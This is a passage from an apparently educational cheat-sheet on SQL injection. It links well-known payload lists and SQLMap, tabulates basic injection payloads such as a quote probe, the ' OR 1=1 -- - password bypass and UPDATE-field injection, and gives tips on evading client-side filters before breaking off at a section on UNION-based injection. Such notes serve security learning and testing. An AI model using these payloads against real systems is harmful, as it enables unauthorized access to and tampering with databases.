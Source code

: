 <hr class="sep-both">

## Famous payloads

**Payloads** are the values that you are using the break into the database.

<div class="row row-cols-md-2"><div>

* [sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list) (2.6k ⭐)
* [PayloadsAllTheThings/SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) (42.3k ⭐)
</div><div>

* [SQLMap](../sqlmap/index.md) (25k ⭐) - automated tool 📌

</div></div>

<table class="table table-bordered table-striped border-dark mt-3">
<thead>
<tr><th>Name</th><th>SQL</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>Usual PoC</td><td><code>Select [...] where xxx='here' [...]</code></td><td><code>'</code><br><small>The query will fail as there would be 3 quotes,<br> and that would confirm that an injection is possible.</small></td></tr>

<tr><td>NoPassword</td><td><code>Select [...] where username='here' AND password='here' [...]</code></td><td><code>' OR 1=1 -- -</code><br><small>The query will bypass the check of the password,<br>if it was made in the query.<br>We use 1=1 for maximum compatibility.</small></td></tr>

<tr><td>Input box String</td><td><code>Select [...] where xxx='here' [...]</code></td><td><code>' code -- -</code></td></tr>

<tr><td>Input box Non-String</td><td><code>Select [...] where xxx=here [...]</code></td><td><code>'' code -- -</code></td></tr>

<tr><td>Update</td><td><code>Update [...] set x='here',y=[...]</code></td><td><code>',x=(code),y='</code></td></tr>
</tbody></table>

<div class="row row-cols-md-2 mt-4"><div>

* If there are client-side filters, then intercept the request (ex: Burp)

* If the developer was lazy, the "names" in the form, may be similar, or the name of columns in the database

</div><div>
</div></div>

<hr class="sep-both">

## Manual Union-based SQLi

<div class="row row-cols-md-2"><div>

**Union-based SQLi** can only be achieved is the two queries have the same number of attributes in the SELECT, as per the property of the UNION clause. Hence, we first need to find how many parameters there are in the unknown request. There are 2 ways
